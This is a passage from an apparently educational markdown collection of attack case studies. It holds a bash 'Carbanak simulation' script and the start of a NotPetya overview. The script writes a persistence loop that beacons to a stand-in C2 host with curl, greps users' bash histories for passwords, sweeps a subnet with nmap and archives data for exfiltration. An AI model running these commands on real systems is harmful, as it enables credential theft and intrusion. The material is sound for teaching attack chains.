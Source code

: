 ```bash
```

### Attack Simulation

```bash
#!/bin/bash
# carbanak_simulation.sh - Educational attack chain simulation

echo "[*] Phase 1: Initial Compromise (Simulated)"
# In real attack: spear-phishing with malicious document

echo "[*] Phase 2: Establish Persistence"
# Create scheduled task for persistence
cat > /tmp/persist.sh << 'EOF'
#!/bin/bash
while true; do
    # Beacon to C2 server
    curl -s http://c2-server.com/beacon
    sleep 3600
done
EOF
chmod +x /tmp/persist.sh

echo "[*] Phase 3: Credential Harvesting"
# In real attack: use Mimikatz
# Simulated: check for stored credentials
grep -r "password" /home/*/.bash_history 2>/dev/null

echo "[*] Phase 4: Lateral Movement"
# In real attack: PsExec, RDP
# Simulated: scan network
nmap -sn 192.168.1.0/24

echo "[*] Phase 5: Data Exfiltration"
# In real attack: manipulate financial systems
# Simulated: archive sensitive data
tar -czf /tmp/exfil.tar.gz /path/to/sensitive/data 2>/dev/null

echo "[!] This is a simulation for educational purposes only"
```

[Return to Table of Contents](#table-of-contents---enhanced-edition)

---

## NotPetya Ransomware

### Overview
**Target:** Ukraine (primary), Global (collateral)  
**Year:** June 2017  
**Type:** Destructive wiper disguised as ransomware  
**Impact:** $10 billion+ in damages
